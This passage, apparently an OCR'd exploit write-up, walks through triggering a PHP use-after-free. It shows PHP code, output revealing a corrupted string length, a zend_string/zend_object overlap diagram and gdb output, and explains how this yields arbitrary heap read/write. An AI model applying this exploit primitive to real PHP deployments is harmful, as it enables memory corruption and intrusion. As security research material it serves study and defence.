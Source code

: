 ```php
        }
}

function trigger_uaf($arg) {
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
}

trigger_uaf('x'); //triggering the UAF & freeing 104 bytes
$abc = $backtrace[1]['args'][0]; 

var_dump($abc); // printing $arg from the backtrace result
$helper = new Helper;  // allocating 104 bytes
var_dump($abc); // printing $arg from the backtrace result AGAIN
```

Output:

```
string(79) "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
string(140737320595480)
```

Our ``$abc`` string has a huge length (``140737320595480``) and it allows us to get arbirary heap read/write using this long string :D

This is how the overlapping looks like:
```
zend_string      zend_object
----------------------------------
gc               gc
h                handle
len	         ce    
val+0            handlers
val+8            properties
val+16           first field
val+24           type of first field
         ...
```

Some snippets from my debugging session:

This is how ``$abc`` looks like before we init the ``$helper`` object:
```
gdb-peda$ print  (zend_string) *0x7ffff6073070
{
  gc = {
    refcount = 0xf6073002,
    u = {
      v = {
        type = 0xff,
        flags = 0x7f,
        gc_info = 0x0
      },
      type_info = 0x7fff
    }
  },
  h = 0x0,
  len = 0x4f, <---- length field is 79
  val = "A"
}
```
